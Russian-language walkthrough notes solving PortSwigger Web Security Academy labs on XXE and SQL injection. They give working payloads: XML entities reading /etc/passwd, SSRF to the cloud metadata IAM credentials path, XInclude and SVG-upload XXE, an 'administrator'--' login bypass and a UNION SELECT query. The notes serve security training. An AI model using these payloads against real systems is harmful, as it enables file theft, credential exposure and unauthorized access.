 1. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
1)зайти на сайт, 

2)выбрать продукт, 

3)нажать *Check stock*, 

4)перехватить Post запрос через BURP 

5) после объявления xml добавить

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/passwd"> ]> 
```

6)заменить product id число на &res; 

7)после этого просто отправить запрос и в ответе придёт /etc/passwd

2. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

те же действия, что и в предыдущей. до пункта 4) 

5)после объявления xml добавить:

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/"> ]>
```

6)заменить product id на &res; отправить запрос, 

7)в ответе придет latest - добавить его к адресу и получим 

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest"> ]> 
```
и так далее, 

n+1)в итоге получаем 
```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```, что и приведёт нас к ответу.

3. https://portswigger.net/web-security/xxe/lab-xinclude-attack

те же действия, что и в 1. до пункта 4) 

5)в *product id* вставить 
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```

6)в ответ придёт /etc/passwd

4.

1) 2) выбрать статью 

3)нажать отправить комментариq(заполнить все поля предварительно) 

4)перехватить запрос через Burp

5)в поле для картинки вставить: 

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/hostname"> ]>
 <svg  version="1.1" width="1200" height="1200"
        viewBox="0 0 100 100"
     baseProfile="full"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink"
     xmlns:ev="http://www.w3.org/2001/xml-events">
 <text font-size = "10" y = "16"> &res; </text>
</svg>
```

6)svg части взяты из интернета - видимо что-то типа стандарта,размер задан вручную, ViewBox регулировался так, чтоб было видно текст на картинке, собственно как и размер текста(тоже регулировался)


1. https://portswigger.net/web-security/sql-injection/lab-login-bypass

1) в графе login ввести administrator'--

2.https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text 

1)в category использовать '+union+select+NULL,NULL,NULL - так убедимся, что у нас 3 столбца в таблице

2)заменяем NULL по очереди на `HmnfQ2` - дано в задании
https://ac811f101ea3312280cb0ad600a4009a.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,%27HmnfQ2%27,NULL-- 

3)второй столбец оказался верным - выводится результат
